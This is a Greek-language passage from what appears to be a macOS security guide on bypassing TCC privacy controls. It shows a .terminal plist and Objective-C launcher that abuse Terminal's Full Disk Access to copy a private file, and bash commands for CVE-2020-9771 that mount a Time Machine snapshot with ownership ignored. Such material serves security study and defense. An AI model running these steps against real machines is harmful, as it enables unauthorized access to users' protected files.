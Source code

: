 Είναι αρκετά συνηθισμένο να δίνεται πρόσβαση **Πλήρους Πρόσβασης Δίσκου (FDA)** στο τερματικό, τουλάχιστον σε υπολογιστές που χρησιμοποιούνται από τεχνικά άτομα. Και είναι δυνατόν να γίνει κλήση σε σενάρια **`.terminal`** χρησιμοποιώντας το.

Τα σενάρια **`.terminal`** είναι αρχεία plist όπως το παρακάτω με την εντολή που θα εκτελεστεί στο κλειδί **`CommandString`**:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd"> <plist version="1.0">
<dict>
<key>CommandString</key>
<string>cp ~/Desktop/private.txt /tmp/;</string>
<key>ProfileCurrentVersion</key>
<real>2.0600000000000001</real>
<key>RunCommandAsShell</key>
<false/>
<key>name</key>
<string>exploit</string>
<key>type</key>
<string>Window Settings</string>
</dict>
</plist>
```
Μια εφαρμογή θα μπορούσε να γράψει ένα σενάριο τερματικού σε έναν τόπο όπως το /tmp και να το εκκινήσει με ένα ερώτημα όπως:
```objectivec
// Write plist in /tmp/tcc.terminal
[...]
NSTask *task = [[NSTask alloc] init];
NSString * exploit_location = @"/tmp/tcc.terminal";
task.launchPath = @"/usr/bin/open";
task.arguments = @[@"-a", @"/System/Applications/Utilities/Terminal.app",
exploit_location]; task.standardOutput = pipe;
[task launch];
```
## Με την προσάρτηση

### CVE-2020-9771 - παράκαμψη TCC του mount\_apfs και ανύψωση προνομίων

**Οποιοσδήποτε χρήστης** (ακόμα και μη προνομιούχος) μπορεί να δημιουργήσει και να προσαρτήσει ένα αντίγραφο ασφαλείας του Time Machine και **να έχει πρόσβαση ΣΕ ΟΛΑ τα αρχεία** αυτού του αντιγράφου ασφαλείας.\
Τα **μόνα προνομία** που χρειάζονται είναι για την εφαρμογή που χρησιμοποιείται (όπως το `Terminal`) να έχει **Πλήρη Πρόσβαση Δίσκου** (FDA) (`kTCCServiceSystemPolicyAllfiles`) η οποία πρέπει να χορηγηθεί από έναν διαχειριστή.

{% code overflow="wrap" %}
```bash
# Create snapshot
tmutil localsnapshot

# List snapshots
tmutil listlocalsnapshots /
Snapshots for disk /:
com.apple.TimeMachine.2023-05-29-001751.local

# Generate folder to mount it
cd /tmp # I didn it from this folder
mkdir /tmp/snap

# Mount it, "noowners" will mount the folder so the current user can access everything
/sbin/mount_apfs -o noowners -s com.apple.TimeMachine.2023-05-29-001751.local /System/Volumes/Data /tmp/snap
```